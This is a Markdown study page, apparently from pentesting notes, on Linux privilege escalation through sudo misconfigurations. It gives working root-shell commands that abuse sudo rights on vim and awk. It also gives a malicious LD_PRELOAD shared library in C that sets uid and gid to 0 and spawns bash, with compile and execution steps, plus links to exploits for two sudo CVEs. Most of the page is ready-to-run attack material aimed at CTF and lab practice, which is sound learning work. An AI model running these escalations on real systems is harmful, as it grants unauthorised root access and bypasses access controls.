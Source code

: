 # Escalation via Sudo

## Sudo Shell Escaping

- `sudo -l` will show us commands delegated to our user. See example of possible output below  
![image](https://user-images.githubusercontent.com/96747355/167295677-4b615420-f012-4bb7-992c-b03ab924f8b8.png)  
- With the result of the command we can then check out on [GTFOBins](https://gtfobins.github.io/) for comprehensive ways to escalate

### Vim

- [Vim on Gtfobins](https://gtfobins.github.io/gtfobins/vim/) the section of interest for us here is the following one:  
![image](https://user-images.githubusercontent.com/96747355/167295801-e9cab3c9-62e5-4a46-90f3-ff62498f4e57.png)  
- Let's try this command `sudo vim -c ':!/bin/sh'`
- It works right away  
![image](https://user-images.githubusercontent.com/96747355/167295851-cd5dd86e-3dc6-49b3-9c32-6846a32f857d.png)  

### awk

- [Awk on GTFOBins](https://gtfobins.github.io/gtfobins/awk/) the section of interest for us here is the following one:  
![image](https://user-images.githubusercontent.com/96747355/167295996-a55b8fce-b27f-421a-958a-18646b7c828d.png)  
- So let's try this `sudo awk 'BEGIN {system("/bin/sh")}'`
- It works  
![image](https://user-images.githubusercontent.com/96747355/167296030-dd82bef4-4640-4ded-8357-0b2f32ca9638.png)

## Intended Functionality

### Example with Apache2

- `sudo -l` we should see this: `(root) NOPASSWD: /usr/sbin/apache2`
- *Note: There are no entry on GTFOBins about apache2 but Google can do the trick ;) We could type something like "sudo apache2 privilege escalation"*
- Then we find an [article](https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/) that mentions this command to let us view system files.

### Example with wget

- See [here](https://veteransec.org/hack-the-box-sunday-walkthrough/) an example with wget on veteransec's writeup of the HTB box called sunday.

## LD_PRELOAD

- `sudo -l` we should see something like this `env_keep+=LD_PRELOAD`
- We are going to preload a user specific share library before any other share libraries
- We need to write our malicious library that will privesc for us by changing our gid and uid to 0 (root). We put this code in a file named x.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- now we need to compile our library with gcc `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
- And now we need to set it as our user's preloaded library `sudo LD_PRELOAD=/tmp/x.so apache2`
- We should be root  
![image](https://user-images.githubusercontent.com/96747355/167297390-ce9c76ed-72c5-4bfb-bea9-9b380478cb9d.png)  

## CVE-2019-14287

- [CVE-2019-14287 on exploit-db](https://www.exploit-db.com/exploits/47502)
- This vulnerability allows us to change our user id, we need to have some sudo rights delegated to us this works very well with right on `/bin/bash`
- Checkout [here](../writeups/THM-SudoSecurityBypass.md) a writeup of an example of exploitation

## CVE-2019-18634

- [CVE-2019-18634 exploit by saleemrashid](https://github.com/saleemrashid/sudo-cve-2019-18634)
- This one is a buffer overflow
- If we see that we have password feedback on (we can try any sudo command to check for this), it means that the option `pwfeedback` is turned on in `/etc/sudoers` and that makes it vulnerable to buffer overflow
- We basically just need to run the provided exploit. Pour pratice on this check out [this box](https://tryhackme.com/room/sudovulnsbof) on trhyhackme


## Resources

{% embed url="https://academy.tcm-sec.com/p/linux-privilege-escalation" %} Linux Privesc on TCM-Security Academy {% endembed %}
